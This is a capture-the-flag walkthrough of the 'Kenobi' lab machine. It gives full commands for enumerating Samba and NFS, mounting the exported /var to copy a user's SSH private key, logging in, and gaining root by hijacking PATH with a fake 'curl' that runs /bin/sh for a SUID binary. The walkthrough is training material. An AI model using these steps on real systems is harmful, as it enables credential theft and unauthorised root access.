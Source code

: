 # Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

Nov 25, 2021

#### Task 1: Deploy the vulnerable machine
- Make sure you're connected to our network and deploy the machine
	- `no answer needed`
- Scan the machine with nmap, how many ports are open?
	- `7`

> I just used `nmap -sC -sV -On nmap $IP` to know the open ports
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33037/tcp6  mountd
|   100005  1,2,3      37028/udp6  mountd
|   100005  1,2,3      46789/tcp   mountd
|   100005  1,2,3      60512/udp   mountd
|   100021  1,3,4      38189/udp   nlockmgr
|   100021  1,3,4      42725/tcp6  nlockmgr
|   100021  1,3,4      44907/tcp   nlockmgr
|   100021  1,3,4      54142/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-11-25T07:26:40-06:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-11-25T13:26:39
|_  start_date: N/A
|_clock-skew: mean: 1h59m56s, deviation: 3h27m52s, median: -4s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

#### Task 2: Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?
	- `3`

> I just used `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.165.132 -Pn` to get the shares
```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.165.132\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.165.132\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.165.132\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```
> Then you just have to connect to the smb using `smbclient //10.10.165.132/anonymous` and type `ls` to view the files.

- Once you're connected, list the files on the share. What is the file can you see?
	- `log.txt`
- What port is FTP running on?
	- `21`

> By using the `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.165.132` you can determine the mount

```
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
```

- What mount can we see?
	- `/var`


#### Task 3: Gain initial access with ProFtpd

> By using the `nc 10.10.64.81 21` command we can determine the version of the ProFTPD Server and connect to the server.

- What is the version?
	- `1.3.5`

> I just search the version of proftpd which is `1.3.5` in the `exploit-db.com` then i get the answer for the next question.

- How many exploits are there for the ProFTPd running?
	- `4`

- We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 
	- `no answer needed`

- We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
	- `no answer needed`

> By following the instructions we will now move into our linux machine then execute the following commands.
```
mkdir /mnt/kenobiNFS
mount 10.10.64.81:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
> The first one is to make a directory in mnt naming it kenobiNFS.
> Then we will mount the /var directory from the IP address to our newly created directory which is kenobiNFS.
> Then we wil just view it the contents of that directory.

> Then we are going to copy the id_rsa to our current directory.
```
cp /mnt/kenobiNFS/tmp/id_rsa .
```

> And we are going to make id_rsa to read and write only by the root since they like that.
```
chmod 600 id_rsa
```

> Then we just use that id to ssh to kenobi user.
```
ssh -i id_rsa kenobi@10.10.64.81
```

> By looking around in the kenobi directory we can see the user.txt 
```
ls -la
cat user.txt
```

- What is Kenobi's user flag (/home/kenobi/user.txt)?
	- `----------...`


#### Task 4: Privilege Escalation with Path Variable Manipulation
 
> The room talks about the SUID which is dangerous since the user can execute some binaries as root.

> Upon finding the SUID files we can use this command.
```
find / -perm -u=s -type f 2>/dev/null
```

- What file looks particularly out of the ordinary? 
	- `/usr/bin/menu`

> Just type the command itself and it will show 3 options
```
/usr/bin/menu
```

- Run the binary, how many options appear?
	- `3`

> We will execute some command to elevate our privilege 
```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```
> The first command is to change directory to the /tmp directory.
> Then we will echo the /bin/sh file into new file curl.
> Then change the permissions of the curl file to 777 which is can be read and write by all.
> Finally, we are going to export the /tmp to the PATH environment variable so that the curl will execute. 
> Then just run the menu file.

- We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
	- `no answer needed`

> After all of that you will be root and you can cat the root.txt in the root directory

- What is the root flag (/root/root.txt)?
	- `-------...`
